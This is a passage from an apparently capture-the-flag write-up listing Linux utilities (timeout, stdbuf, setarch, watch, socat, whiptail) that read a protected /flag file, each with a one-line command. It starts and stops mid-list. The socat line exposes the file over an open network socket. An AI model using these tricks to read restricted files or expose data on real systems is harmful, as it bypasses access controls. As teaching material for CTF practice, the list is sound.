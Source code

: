 Runs **`cat`** under **`nice`**, which was enough to access the flag.


## timeout

```bash
timeout 5 cat /flag
```

Executes **`cat`** with a time limit.


## stdbuf

```bash
stdbuf -i0 cat /flag
```

Disables buffering to read the flag immediately.


## setarch

```bash
setarch x86_64 cat /flag
```

Bypasses some restrictions via changing the execution environment.


## watch

```bash
watch -b cat /flag
```

Repeats execution of **`cat /flag`**, bypassing output filtering.


## socat

```bash
socat TCP-LISTEN:1234,reuseaddr,fork EXEC:"cat /flag"
```

Exposes the flag over a network socket.


## whiptail

```bash
whiptail --textbox /flag 10 200
```

Displays the flag in a textbox UI dialog.


## awk
